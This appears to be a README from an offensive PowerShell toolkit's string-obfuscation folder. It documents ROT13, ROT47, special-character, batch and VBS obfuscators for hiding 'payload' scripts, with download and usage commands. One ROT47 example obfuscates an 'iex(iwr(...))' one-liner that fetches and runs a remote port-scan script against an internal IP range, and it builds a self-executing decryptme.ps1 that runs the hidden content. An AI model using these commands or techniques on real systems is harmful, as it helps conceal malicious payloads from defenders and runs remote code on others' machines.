 ## Enc-rot13.ps1

|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|[enc-rot13](https://github.com/r00t-3xp10it/redpill/blob/main/lib/String-Obfuscation/enc-rot13.ps1)|Encrypt or decrypt strings using ROT13 cipher.|User Land|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/String-Obfuscation/enc-rot13.png)<br />Creates decrypt script if sellected **-output ps1**<br />|

**download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/String-Obfuscation/enc-rot13.ps1" -OutFile "enc-rot13.ps1"
```

**execute:**
```powershell
.\enc-rot13.ps1 -text "whoami"
.\enc-rot13.ps1 -text "jubnzv"
.\enc-rot13.ps1 -text "whoami" -output ps1
.\enc-rot13.ps1 -text "whoami" -output logfile
.\enc-rot13.ps1 -infile "payload.ps1" -output ps1
```

<br />

## Out-EncodedSpecialCharOnlyCommand.ps1

|Function Name|Description|Privileges|Notes|
|---|---|---|---|
|Out-EncodedSpecialCharOnlyCommand|Generates Special-Character-Only encoded payload<br />for a PowerShell command or script.|User Land|[Screenshot1](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/String-Obfuscation/bhoanoon1.png)<br />[Screenshot2](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/String-Obfuscation/2bhoanoon1.png)<br />[Screenshot3](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/String-Obfuscation/output-to-file.png)|

**download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/String-Obfuscation/Out-EncodedSpecialCharOnlyCommand.ps1" -OutFile "Out-EncodedSpecialCharOnlyCommand.ps1"
```

**execute:**
```powershell
Import-Module -Name ".\Out-EncodedSpecialCharOnlyCommand.ps1" -Force
Out-EncodedSpecialCharOnlyCommand -ScriptBlock {Write-Host 'Hello World!' -ForegroundColor Green; Write-Host 'Obfuscation Rocks!' -ForegroundColor Green} -NoProfile -NonInteractive -PassThru
```

<br />

## Obfuscator.bat

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|obfuscator|Encrypt batch scripts|User Land|Dependencies: [certutil](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/certutil) - [Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/String-Obfuscation/obfuscator.png)|

**download script:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/String-Obfuscation/obfuscator.bat" -OutFile "obfuscator.bat"
```

**execute:**
```powershell
.\obfuscator.bat Payload.bat
```

<br />

## vbs_obfuscator.vbs

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|vbs_obfuscator|Encrypt vbs scripts|User Land|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/String-Obfuscation/vbs_obfuscator.png)|

**download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/String-Obfuscation/vbs_obfuscator.vbs" -OutFile "vbs_obfuscator.vbs"
```

```vbs
#Manual
cscript.exe vbs_obfuscator.vbs Payload.vbs

#Automatic
cscript.exe vbs_obfuscator.vbs Payload.vbs > Buffer.vbs
$parse = Get-Content Buffer.vbs
echo $parse[3] > Buffer.vbs

- OR -
cscript.exe vbs_obfuscator.vbs Payload.vbs > Buffer.vbs
$parse = Get-Content Buffer.vbs|Select-String -Pattern "Execute chr"
echo $parse > Buffer.vbs
```

<br />

## Encrypt-String.ps1

|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|Encrypt-String|Encrypt commands \| scripts using a secret key of 113 bytes|User Land|[Screenshot1](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/String-Obfuscation/Encrypt-String.png) - [Encrypt-String.ps1](https://github.com/r00t-3xp10it/redpill/blob/main/lib/String-Obfuscation/Encrypt-String.ps1)<br />[Screenshot2](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/String-Obfuscation/Encrypt-Decrypt.png) - [Decrypt-String.ps1](https://github.com/r00t-3xp10it/redpill/blob/main/bypass/encrypt_decrypt/Decrypt-String.ps1)|

**download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/String-Obfuscation/Encrypt-String.ps1" -OutFile "Encrypt-String.ps1"
```

**execute:**
```powershell
#Encrypt cmdline OnScreen
.\Encrypt-String.ps1 -action "console" -plaintextstring "whoami"

#Encrypt PS1 script and build decrypt script
.\Encrypt-String.ps1 -action "autodecrypt" -infile "Payload.ps1"

#Encrypt 'whoami' command + send encrypted string to the recipient email address (encrypted chat)
.\Encrypt-String.ps1 -action "console" -plaintextstring "whoami" -SendTo "pedroubuntu@gmail.com"
```

<br />

**Decrypt Strings**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/bypass/encrypt_decrypt/Decrypt-String.ps1" -OutFile "Decrypt-String.ps1"

#Decrypt cmdline OnScreen (encrypted chat)
.\Decrypt-String.ps1 -action "console" -EncryptedString "76492d1116743f0423413b16050a5345MgB8AHAARgBNAHgASABTAEIARQA5AEkAWgA5AFIAaQBkAGEAcQBKADkAdwBHAFEAPQA9AHwANQBhAGEANwBhADkAYQBhAGMANgAzADIAOQBmAGQAMwBmADEAMwAwADQAYwBmADgAZAA2AGIAYQBlADUAMABmAA=="
```

<br />

**Article:** https://github.com/r00t-3xp10it/redpill/tree/main/bypass/encrypt_decrypt

<br /><br />

## Convert-ROT47.ps1

|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|[Convert-ROT47](https://github.com/r00t-3xp10it/redpill/blob/main/lib/String-Obfuscation/Convert-ROT47.ps1)|Rotate ascii chars by nº places (Caesar cipher)|User Land|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/String-Obfuscation/Convert-ROT47.png)<br />[Decryption Rountine CmdLet Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/String-Obfuscation/Convert-ROT47_SimpleDecryption.png)<br />[Decryption_Routine_CmdLet_Screenshot2](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/String-Obfuscation/Convert-ROT47_IEXIWR.png)<br />Creates decrypt script if sellected **-action 'decryptme'**|

**download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/String-Obfuscation/Convert-ROT47.ps1" -OutFile "Convert-ROT47.ps1"
```

**execute:**
```powershell
#Encrypt Text using from rot 5 to rot 10 char rotation
.\Convert-ROT47.ps1 -Text 'This is an encrypted string!' -Rot (5..10) -Encrypt
#Outputs:
#    Rot Text
#    --- ----
#      5 Vjku ku cp gpet{rvgf uvtkpi#
#      6 Uijt jt bo fodszqufe tusjoh"
#      7 This is an encrypted string!
#      8 Sghr hr `m dmbqxosdc rsqhmf~
#      9 Rfgq gq _l clapwnrcb qrpgle}
#     10 Qefp fp ^k bk`ovmqba pqofkd|


#Encrypt Text using rot 4
.\Convert-ROT47.ps1 -Text 'This is an encrypted string!' -rot 4 -Encrypt
#Outputs:
#    Rot Text
#    --- ----
#      4 Xlmw mw er irgv}txih wxvmrk%


#Decrypt rot 4 strings
.\Convert-ROT47.ps1 -Text 'Xlmw mw er irgv}txih wxvmrk%' -rot 4 -Decrypt
#Outputs:
#    Rot Text
#    --- ----
#      4 This is an encrypted string!


#Convert text to rot7 and build the decrypt script (decryptme.ps1)
.\Convert-ROT47.ps1 -Text 'whoami /priv;echo ""' -Rot "7" -Action "decryptme" -Encrypt
.\Decryptme.ps1


#Download demonstration cmdlet ( cmdlet contents are going to be converted to ROT8  later )
iwr -Uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/CertSign_PS1/auxiliary.ps1" -OutFile "Payload.ps1"
#Convert Payload.ps1 contents to rot8 and build the decrypt\execute routine script. (decryptme.ps1)
.\Convert-ROT47.ps1 -Infile "$pwd\Payload.ps1" -Rot "8" -Action "decryptme" -Encrypt
.\Decryptme.ps1


#Obfuscate the IEX(IWR('')) -Text 'string' and create the decryptme.ps1 that decrypt\execute the -text 'string' if executed ..
.\Convert-ROT47.ps1 -Text "iex(iwr('https://raw.githubusercontent.com/samratashok/nishang/master/Scan/Invoke-PortScan.ps1'));Invoke-PortScan -StartAddress '192.168.1.250' -EndAddress '192.168.1.254' -ResolveHost -ScanPort" -Rot "22" -Action "decryptme" -Encrypt
.\Decryptme.ps1

[Manual] #Decrypt the IEX(IWR('')) Obfuscated string by last convertion
# NOTE: double quotes are necessary in -Text "string" to deobfuscted correctly, because obfuscated string contains single quotes chars
.\Convert-ROT47.ps1 -Text "!{0>!/*>=~,,(+PEE*w/D}!,~-x-+{*y'&,{&,Dy'%E+w%*w,w+~'#E&!+~w&}E%w+,{*Eiyw&E_&.'#{Cf'*,iyw&D(+G=??Q_&.'#{Cf'*,iyw& Ci,w*,Wzz*{++ =GOHDGLNDGDHKF= C[&zWzz*{++ =GOHDGLNDGDHKJ= Ch{+'`$.{^'+, Ciyw&f'*," -rot '22' -Decrypt
```

<br />

**Final Notes:**
```powershell
[Remark]: When invoking -action 'decryptme' parameter. We need to test if 'decryptme.ps1'
executes successfuly. If NOT then try to create it invoking a diferent ROT rotation.

[Remark]: Try to use single quotes ['] in -text 'string' parameter if possible OR
else its required to escape special chars like: ` $ " on -Text 'string' -Decrypt function.
```

